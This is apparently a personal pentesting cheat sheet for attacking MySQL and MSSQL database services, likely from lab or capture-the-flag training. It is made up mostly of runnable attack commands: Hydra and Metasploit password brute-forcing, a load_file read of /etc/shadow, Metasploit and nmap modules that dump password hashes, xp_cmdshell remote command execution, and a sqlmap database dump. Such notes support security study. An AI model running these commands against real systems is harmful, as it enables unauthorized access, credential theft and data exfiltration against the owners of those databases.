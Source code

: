 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. [Hydra](#Hydra)
	2. [Msfconsole](#msfconsole)
	3. [nmap](#nmap)
	4. [sqlmap](#sqlmap)

---
# Overview 

SQL - Simple Query Language

Relational database that is used by a lot of websites to store data.

---
## #Ports
- 3306 : mysql
- 1433 : MSSQL

## Usage
`mysql -h 192.168.34.3 -u root`
- `show database;` : shows databases
- `use books;` : go in to database
- `select count * from authors;` : show authors
- `help;` : help menu
- `select load_file("/etc/shadow");` : can see dir access by user from msfconsole mysql_writable_dirs

## Related Services
- MySql : database
- PostgreSql : database
- MariaDB : database
- MSSql : Microsoft SQL

---

# Tests
- 

# #Tools

## Hydra
dictionary attack
```bash
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_password.txt 192.168.45.3 mysql
```

---

## msfconsole
### MYSQL
1. use auxiliary/scanner/mysql/**mysql_writable_dirs**
	1. set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
	2. setg rhosts 192.168.34.2
	3. setg : set globaly
	4. set verbose false
	5. advanced : advanced options
	6. set password "" : null password
	7. run
3. use auxiliary/scanner/mysql/**mysql_hashdump**
	1. set username root
	2. set password "" : doesn't show in options
	3. run
	4. gives user hashes
5. use auxiliary/scanner/mysql/**mysql_login**
	1. set rhost addr
	2. set pass_file /usr/share/metasploit-framework/data/wordlists/unix_password.txt
	3. set stop_on_success true
	4. set username root
	5. run
#### Useful modules
- auxiliary/scanner/mysql/mysql_version
- auxiliary/scanner/mysql/mysql_login
- auxiliary/admin/mysql/mysql_enum
- auxiliary/admin/mysql/mysql_sql
- auxiliary/scanner/mysql/mysql_file_enum
- auxiliary/scanner/mysql/mysql_hashdump
- auxiliary/scanner/mysql/mysql_schemadump
- auxiliary/scanner/mysql/mysql_writable_dirs

---

### MSSQL
- use auxiliary/scanner/mssql/mssql_login
	- setg rhosts addr
	- set user_file /root/desktop/wordlists/common_users.txt
	- set pass_file /root/dektop/wordlists/100-common-passwords.txt
	- run
- use auxiliary/admin/mssql/mssql_enum
	- run
- use auxiliary/admin/mssql/mssql_enum_sql_logins
- use auxiliary/admin/mssql/mssql_exec
	- set cmd whoami
	- set username sa ???
- use auxiliary/admin/mssql/mssql_enum_domain_accounts
	- run

---

## nmap
### MSQL
- --script
	- mysql-empty-password
		- show users with no pass
	- mysql-info
		- shows capabilities and other info
	- mysql-users
		- --script-args="mysqluser='root',mysqlpass=''"
	- mysql-databases
		- --script-args="mysqluser='root',mysqlpass=''"
	- mysql-variables
		- --script-args="mysqluser='root',mysqlpass=''"
		- look for **datadir:** locations
	- mysql-audit
		- --script-args="mysql-audit.username='root',mysql-audit.password='', mysql-audit.filename='usr/share/nmap/nselib/data/mysql-cis.audit"
	- mysqldump-hashes
		- --script-args="username='root',password=''"
	- mysql-query
		- --script-args="query='select count(\*) from books',username='root',password=''"
### MSSQL
- --script
	- ms-sql-info
		- information
	- ms-sql-ntlm-info
		- `--script-args instance-port=1433`
		- version info
	- ms-sql-brute 
		- ` --script-args userdb=/usr/wordlists/common_users.txt,passdb=/usr/wordlists/100-common-passwords.txt`
	- ms-sql-empty-password
	- ms-query
		- `-script-args mssql.username-admin,mssql.password=anamaria,ms-sql.query.query='SELECT * FROM master..syslogins' -oN output.txt`
	- ms-sql-dump-hashes 
		- `--script-args mssql.username=admin,mssql.password=anamaria`
	- ms-sql-xp-cmdshell 
		- `--script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"`
			- `ms-sql-xp-cmshell.cm="type c:\flag.txt"`
				- type is windows version of cat

---

## sqlmap

#### `Usage: python3 sqlmap [options]`

1. Use burpsuite to intercept a request and save it to a file
2. pass the file to sqlmap
	1. `sqlmap -r request.txt --dbms=mysql --dump`
3. sqlmap will try to find a vulnerability and then dump the database

